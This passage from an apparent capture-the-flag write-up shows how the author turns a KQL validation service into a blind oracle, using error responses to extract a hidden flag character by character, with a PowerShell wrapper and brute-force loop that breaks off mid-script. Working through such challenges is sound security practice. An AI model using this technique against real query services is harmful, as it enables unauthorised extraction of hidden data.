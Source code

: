As we know, when the query gets a result we will end up doing `myData | take 501` which throws an error. At this point I'm not ashamed to say I was pretty proud of myself 🥇.

## Scripting the solution

I decided to script a wrapper in Powershell to automate the process of querying the KQL validation service. First I wrote a function to submit the KQL query to the service:

```powershell
# Define the endpoint URL
$endpointUrl = "https://hashgoblins-316b-kqlvalidation.ept.gg/validate_kql"
function SubmitKql {
    param (
        [string]$query
    )
    $formData = @{
        query = $query
    }
    # Convert form data to JSON format
    $jsonBody = $formData | ConvertTo-Json
    try {
        # Make the POST request
        $response = Invoke-RestMethod -Uri $endpointUrl -Method Post -ContentType "application/json" -Body $jsonBody
        return $response
    } catch {
        return $_
    }
}
```

In order to output the data I needed, I had to return the the error message and not throw an exception, which is why I used a `try-catch`-block with a `return $_` in the catch-block.

For the script itself, it's similar to the other KQL task, basically just takes a list of characters in the `$characters`-variable and loops through them. I provide a variable for the starting prefix `$currentPrefix` set to `EPT{`. 

```powershell
# Define the characters to iterate through
$characters = @('A'..'Z') + @('0'..'9') + @('_', '{', '}', '.', '-', '<', '>', '*', ':', '+', "=", '$')

# Initialize variables
$currentPrefix = "EPT{"
$runCount = 0

# Loop to find the flag
while ($true) {
    $found = $false
    foreach ($char in $characters) {
        $prefix = $currentPrefix + $char
        Write-Output "Running query with prefix: $prefix"
        $query = @"
let myData = range num from 1 to 501 step 1; // This will be a dataset of 500 entries
let searchResults = search * 
    | where * startswith '$prefix'
    | where * endswith '}'
    | summarize SearchCount = count();
let initialCount = 500;
let totalCount = initialCount + iff(toscalar(searchResults) > 0, 1, 0);
myData
| take totalCount
"@
        $response = SubmitKql -query $query
        # Check if the query is valid
```